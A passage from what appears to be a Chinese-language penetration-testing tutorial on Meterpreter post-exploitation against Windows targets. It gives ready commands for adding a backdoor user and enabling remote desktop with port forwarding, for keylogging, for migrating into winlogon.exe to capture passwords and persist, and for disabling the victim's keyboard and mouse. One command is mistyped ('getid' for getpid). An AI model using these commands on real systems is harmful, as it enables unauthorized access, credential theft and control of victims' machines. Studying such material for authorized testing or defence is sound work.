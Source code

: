 在目标系统中创建一个新的用户账号的方法二：

```apl
enable_rdp脚本:
run post/windows/manage/enable_rdp USERNAME=cherry PASSWORD=123456    #添加用户
run post/windows/manage/enable_rdp                                    #开启远程桌面
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662            #将3389端口转发到6662
```

### **7.13 启用远程桌面：**

- 当我们新添加的用户已经拥有远程桌面之后，我们就可以使用这个账号凭证来开启远程桌面会话了。

- 首先，我们需要确保目标Windows设备开启了远程桌面功能（需要开启多个服务），我们输入：`run post/windows/manage/enable_rdp`命令可以开启远程桌面。
- 在开启远程桌面会话之前，我们还需要使用`idletime命令`检查远程用户的空闲时长：

```apl
idletime
```

### **7.14 键盘记录:**

Meterpreter还可以在目标设备上实现键盘记录功能，键盘记录主要涉及以下三种命令：

```apl
keyscan_start： #开启键盘记录功能，开关键盘记录功能后目标输入的内容我们就通过keyscan_dump命令在Meterpreter里面进行查看；
keyscan_dump：  #显示捕捉到的键盘记录信息
keyscan_stop：  #停止键盘记录功能
```

注：在使用键盘记录功能时，通常需要跟目标进程进行绑定，接下来我们介绍如何绑定进程，然后获取该进程下的键盘记录。

### **7.15 进程迁移：**

Meterpreter 既可以单独运行，也可以与其他进程进行绑定。因此，我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定，并以此来实现持久化。

在下面的例子中，我们会将`Meterpreter`跟 `winlogon.exe`绑定，并在登录进程中捕获键盘记录，以获得用户的密码。

首先，我们需要使用：`ps` 命令查看目标设备中运行的进程：

![image-20250408170914111](https://gitee.com/ljh00928/csdn/raw/master/img/39a926b9ae82af9e2ab6772c77522400.png)

我们可以使用：`getpid` 查看我们当前的进程id：

```apl
getid
```

使用：`migrate`+`目标进程ID`命令来绑定目标进程id，可以看到通过进程迁移后，当前的`Meterpreter`的`pid`已经和 `winlogon.exe`一样了

![image-20250408171334516](https://gitee.com/ljh00928/csdn/raw/master/img/24b867891aa95df5f3fcfb69f252fbc0.png)

这里绑定目标pid的时候，经常会断了shell。进程迁移后会自动关闭原来Meterpreter进程，没有关闭可使用 `kill pid` 命令关闭进程。

或者使用自动迁移进程（`run post/windows/manage/migrate`）命 令，系统会自动寻找合适的进程然后迁移。

### **7.16 禁止目标主机使用键盘鼠标**

```apl
uictl  disable(enable) keyboard  #禁止(允许)目标使用键盘
uictl  disable(enable) mouse     #禁止(允许)目标使用鼠标
```
